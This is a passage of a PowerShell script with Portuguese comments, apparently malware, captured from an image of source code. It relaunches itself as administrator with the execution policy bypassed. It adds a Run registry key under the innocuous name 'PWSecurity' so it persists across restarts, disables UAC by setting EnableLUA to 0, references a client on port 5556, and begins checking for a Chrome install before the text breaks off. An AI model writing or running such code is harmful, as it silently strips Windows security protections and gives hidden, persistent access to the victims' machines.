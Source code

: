 ```powershell
    #Write-Host "Cliente conectado corretamente na porta 5556!"
#} else {
 #   Write-Host "Falha ao conectar na porta 5556!"
#}
#$testClient.Close()
#############################################################################

# Verifica se o script está sendo executado como Administrador
if (-not ([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator))
{
    # Solicita elevação e reinicia o script
    Start-Process powershell.exe -ArgumentList "-ExecutionPolicy Bypass -File `"$PSCommandPath`"" -Verb RunAs
    exit
    exit
}

# Seu código começa aqui
#Write-Host "Executando como Administrador"

function Add-PowerShellScriptToStartup {
    # Caminho do Registro onde a chave será criada (para o usuário atual)
    $registryPath = "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"

    # Nome da Chave (pode ser qualquer nome que represente seu script)
    $name = "PWSecurity"

    # Valor da chave - O caminho do PowerShell com argumentos
    # Utiliza $PSScriptRoot para pegar o caminho do script atual
    $scriptPath = "$env:APPDATA\$nomebat"
    #$value = "powershell.exe -ExecutionPolicy Bypass -File `"$scriptPath`""
    $value = "$env:APPDATA\$nomebat"

    # Cria a entrada no Registro
    New-ItemProperty -Path $registryPath -Name $name -Value $value -PropertyType String -Force
}

# Chama a função dentro do script para inserir no registro do Windows
Add-PowerShellScriptToStartup

# Desativar UAC
Set-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System' `
                 -Name 'EnableLUA' `
                 -Value 0

Write-Host "UAC Desativado. Reinicie o computador para aplicar as alterações."

function Test-ChromeInstalled {

    [CmdletBinding()]
    param()

    # Locais comuns de instalação do Chrome
    $chromePaths = @(
        "$env:ProgramFiles\Google\Chrome\Application\chrome.exe",
        "${env:ProgramFiles(x86)}\Google\Chrome\Application\chrome.exe",
        "$env:LocalAppData\Google\Chrome\Application\chrome.exe"
    )

    # Chave de registro comum para o Chrome
    $registryPaths = @(
        "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\App Paths\chrome.exe",
```